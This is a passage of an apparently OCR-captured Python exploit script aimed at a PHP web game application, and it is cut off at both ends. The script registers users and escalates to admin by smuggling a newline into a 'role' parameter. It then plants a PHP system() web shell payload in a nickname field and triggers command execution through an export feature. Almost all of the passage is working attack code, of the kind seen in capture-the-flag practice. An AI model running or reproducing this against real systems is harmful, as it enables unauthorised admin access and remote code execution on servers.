 ```python
    print(f"Cookie: {session_cookie}")

# login to web app
response = requests.post(url + "authenticate.php", data=data, allow_redirects=False)
if response.headers["Location"] == "/index.php":
    print("User logged in.")
    authenticated_cookie = response.headers["Set-Cookie"].split(";")[0]
    print(f"Authenticated cookie: {authenticated_cookie}")

# privilege escalate to admin
headers = {"Cookie": authenticated_cookie}
response = requests.get(url + "save_game.php?clicks=1337&level=1337&role%0a=Admin", headers=headers, allow_redirects=False)

# login as admin
response = requests.post(url + "authenticate.php", data=data, allow_redirects=False)
if response.headers["Location"] == "/index.php":
    print("Admin logged in.")
    admin_cookie = response.headers["Set-Cookie"].split(";")[0]
    print(f"Admin cookie: {admin_cookie}")

# creating a normal userword
normal_username = ''.join(random.choice(string.ascii_lowercase) for _ in range(8))
print(f"Generated username: {normal_username}")

# creating a normal password
normal_password = ''.join(random.choice(string.ascii_lowercase) for _ in range(8))
print(f"Generated password: {normal_password}")

# registering the normal user
normal_data = {"username": normal_username, "password": normal_password}
response = requests.post(url + "create_player.php", data=normal_data, allow_redirects=False)
if "Successfully registered" in response.headers["Location"]:
    print("Successfully registered normal user.")
    normal_session_cookie = response.headers["Set-Cookie"].split(";")[0]
    print(f"Cookie: {session_cookie}")

# login to web app as normal user
response = requests.post(url + "authenticate.php", data=normal_data, allow_redirects=False)
normal_authenticated_cookie = ""
if response.headers["Location"] == "/index.php":
    print("Normal user logged in.")
    normal_authenticated_cookie = response.headers["Set-Cookie"].split(";")[0]
    print(f"Normal authenticated cookie: {normal_authenticated_cookie}")

# inject rce payload
headers = {"Cookie": normal_authenticated_cookie}
placeholder = ''.join(random.choice(string.ascii_lowercase) for _ in range(8)) 
response = requests.get(url + "save_game.php?clicks=1337&level=1337&nickname="+ placeholder +"<?php%20system('"+ sys.argv[2] +"')%3b%20?>", headers=headers, allow_redirects=False, proxies=proxy)

# triggering rce
response = requests.post(url + "export.php", data={"threshold":"0", "extension": "php"}, headers={"Cookie": admin_cookie}, allow_redirects=False, proxies=proxy)
export_url = url + response.headers["Location"].split(" ")[-1]
response = requests.get(export_url, headers={"Cookie": admin_cookie})
print(f"Export url: {export_url}")

# parsing output
soup = BeautifulSoup(response.content, "html5lib")
results = soup.find_all("th")
for result in results:
    if placeholder in result.get_text():
```